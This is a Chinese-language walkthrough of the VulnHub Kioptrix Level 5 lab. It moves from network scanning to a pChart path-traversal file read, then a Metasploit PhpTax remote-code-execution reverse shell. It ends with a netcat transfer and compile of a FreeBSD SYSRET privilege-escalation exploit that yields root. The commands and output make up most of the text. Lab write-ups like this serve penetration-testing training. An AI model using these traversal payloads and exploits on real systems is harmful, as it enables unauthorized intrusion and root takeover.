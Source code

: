 ```yaml
---
title: vulnhub kioptrix level 5
---
```


将靶机和kali攻击机放在同一个网段

### 信息探测
用户`arp-scan 192.168.159.0/24`发现主机IP为192.168.159.133

#### 端口扫描
```
$ nmap -sT -sV -p 1-65535 192.168.159.0/24
host             port  proto  name  state   info
----             ----  -----  ----  -----   ----
192.168.159.133  22    tcp    ssh   closed  
192.168.159.133  80    tcp    http  open    Apache httpd 2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
192.168.159.133  8080  tcp    http  open    Apache httpd 2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
```

#### web探测
目录探测两个web服务没有发现什么内容，直接访问，发现80端口的web服务主页有路径信息
```
<head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
</head>
```

访问发现一个复杂的应用


#### 漏洞分析
mod_ssl存在漏洞，和kioptrix level 1一样，但是EXP在最新版编译不成功，老版Ubuntu可以，但是kali上仍然不可以用，有依赖问题，只能在老版本ubuntu上用，太麻烦了，试试有没有其他方式

web页面应该可以发现很多漏洞吧

### 漏洞利用
web接口很快就扫描出了任意文件读取漏洞`http://192.168.159.133/pChart2.1.3/examples/imageMap/index.php?Action=ViewPHP&Script=%2f..%2f../etc/passwd`

通过访问`http://192.168.159.133/pChart2.1.3/examples/imageMap/index.php?Action=ViewPHP&Script=%2f..%2f../var/log/httpd-error.log`可以得到路径`/usr/local/etc/apache22/httpd.conf`

访问路径后搜索，可以得到如下内容

```
<VirtualHost *:8080>
    DocumentRoot /usr/local/www/apache22/data2

<Directory "/usr/local/www/apache22/data2">
    Options Indexes FollowSymLinks
    AllowOverride All
    Order allow,deny
    Allow from env=Mozilla4_browser
</Directory>
```

8080端口设置为Mozilla4的浏览器才可以访问

使用BurpSuite，把包的User-Agent改成Mozilla4，访问得到phptax的信息

直接用msf和searchsploit尝试能不能利用

```
msf5 > search phptax

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   1  exploit/multi/http/phptax_exec  2012-10-08       excellent  Yes    PhpTax pfilez Parameter Exec Remote Code Injection


msf5 > use exploit/multi/http/phptax_exec
msf5 exploit(multi/http/phptax_exec) > set RHOSTS 192.168.159.133
RHOSTS => 192.168.159.133
msf5 exploit(multi/http/phptax_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/phptax_exec) > options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.133  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf5 exploit(multi/http/phptax_exec) > run

[*] Started reverse TCP double handler on 192.168.159.128:4444 
[*] 192.168.159.1338080 - Sending request...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CNuGojWxfYDfippn;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Command: echo ZjLBbjOR9KOyZPCI;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "CNuGojWxfYDfippn\r\n"
[*] Matching...
[*] A is input...
[*] Reading from socket B
[*] B: "ZjLBbjOR9KOyZPCI\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.159.128:4444 -> 192.168.159.133:21845) at 2019-09-29 14:58:09 +0800
[*] Command shell session 2 opened (192.168.159.128:4444 -> 192.168.159.133:51615) at 2019-09-29 14:58:09 +0800

whoami
www
```

可以直接远程命令执行

### 后渗透利用
```
$ uname -a 
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

查看对应操作系统版本是否有提权漏洞
```
$ searchsploit freebsd 9.0 local
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation                                                       | exploits/freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation                                                 | exploits/freebsd/local/26368.c
```

kali机器上
```
root@kali:~# cp /usr/share/exploitdb/exploits/freebsd/local/28718.c .
root@kali:~# nc -lvp 4444 < 28718.c
listening on [any] 4444 ...
Warning: forward host lookup failed for bogon: Unknown host
connect to [192.168.159.128] from bogon [192.168.159.133] 42275
```

目标机器上
```
$ nc -nv 192.168.159.128 > 28718.c
$ gcc -o sysert 28718.c
$ ./sysret
[+] SYSRET FUCKUP!!
[+] Start Engine...
[+] Crotz...
[+] Crotz...
[+] Crotz...
[+] Woohoo!!!
whoami
root
```

在/root目录下有作者的恭喜过关文件

### 其他
获取8080的用户权限后，可以看到/data目录，访问pdf路径，可以看到很多类似shell的命令，怀疑是有后门，不会利用
